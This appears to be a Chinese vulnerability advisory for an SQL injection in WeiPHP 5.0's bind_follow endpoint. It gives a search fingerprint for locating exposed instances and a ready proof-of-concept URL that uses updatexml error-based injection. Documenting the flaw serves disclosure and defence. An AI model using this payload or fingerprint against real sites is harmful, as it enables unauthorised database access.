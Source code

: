 # WeiPHP5.0 bind_follow SQL注入漏洞

## 漏洞描述

Weiphp5.0 所有使用了 wp_where() 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

## 漏洞影响

  <a-checkbox checked>Weiphp5.0</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>app="WeiPHP"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628497681576-0cd015d8-cfef-4dcc-9f5a-e51a95136802.png)

验证POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```